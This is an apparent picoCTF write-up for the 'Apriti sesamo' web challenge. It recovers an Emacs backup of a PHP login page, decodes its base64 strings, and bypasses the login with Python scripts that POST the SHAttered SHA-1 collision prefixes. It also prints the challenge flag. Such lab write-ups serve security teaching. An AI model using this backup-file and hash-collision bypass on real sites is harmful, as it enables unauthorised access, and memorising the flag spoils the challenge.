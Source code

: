 # Apriti sesamo
## Description: 
I found a web app that claims to be impossible to hack! Try it here!

## Hints:
1. Backup files
2. Rumor has it, the lead developer is a militant emacs user

### Solution
1. The login page contains a username and password field for user to enter.
2. First, I quickly ChatGPT to find out what emacs file is about. _"File Encoding: Emacs sometimes generates backup files (filename~) or auto-save files (.#filename). Hidden information could be stored there."_
3. On the login page url, _http://verbal-sleep.picoctf.net:50313/impossibleLogin.php_, I try append the tilde character ~ and a backup _impossibleLogin.php~_ page is discovered.
4. Viewing the page source, we get the following php code for user authentication.
```
<?php
 if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])){$yuf85e0677=$_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];$rs35c246d5=$_POST[base64_decode("\143\x48\144\153")];if($yuf85e0677==$rs35c246d5){echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");}else{if(sha1($yuf85e0677)===sha1($rs35c246d5)){echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));}else{echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");}}}?>
```
5. However, it was base64 encoded. So, I try to decode it to read the encoded content.
```
import base64

values = [
    b"\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d",
    b"\143\x48\x64\x6b",
    b"\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75",
    b"\143\x48\144\153",
    b"\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d",
    b"\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75",
    b"\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75"
]

for v in values:
    print(base64.b64decode(v).decode(errors="ignore"))
```
6. The encoded contents are as follows:
```
username
pwd
username
pwd
<br/>Failed! No flag for you
../flag.txt
<br/>Failed! No flag for you
```
7. Wrapping up the whole thing, we have
```
<?php
if (isset($_POST["username"]) && isset($_POST["pwd"])) {
    $yuf85e0677 = $_POST["username"];
    $rs35c246d5 = $_POST["pwd"];

    if ($yuf85e0677 == $rs35c246d5) {
        echo "<br/>Failed! No flag for you";
    } else {
        if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
            echo file_get_contents("../flag.txt");
        } else {
            echo "<br/>Failed! No flag for you";
        }
    }
}
?>

```
8. As we can observe, we need to enter different values for username and password fields. However, the SHA-1 digest for both fields must be equivalent.
9. So, I try to search for such values online but there is no such string. However, I came across this SHA-1 collision attack challenge and the question is basically similar. _https://www.linkedin.com/pulse/using-sha1-collision-attack-solve-bostonkeyparty-ctf-rotimi/_
10. The solution given is as follow:
```
import requests
import urllib2
rotimi = urllib2.urlopen("http://shattered.io/static/shattered-1.pdf").read()[:500];
letmein = urllib2.urlopen("http://shattered.io/static/shattered-2.pdf").read()[:500];
 
r = requests.get('http://54.202.82.13/', params={'name': rotimi, 'password': letmein});
print r.text

```
11. However, since the solution given above is using GET method, but we are using POST method, let's modify the source code.
```
import requests
import urllib.request

rotimi = urllib.request.urlopen("http://shattered.io/static/shattered-1.pdf").read()[:500]
letmein = urllib.request.urlopen("http://shattered.io/static/shattered-2.pdf").read()[:500]

r = requests.post('http://verbal-sleep.picoctf.net:50313/impossibleLogin.php', 
                  data={'username': rotimi, 'pwd': letmein})

print(r.text)

```
12. Run the code and we get the flag.
13. picoCTF{w3Ll_d3sErV3d_Ch4mp_5b269555}

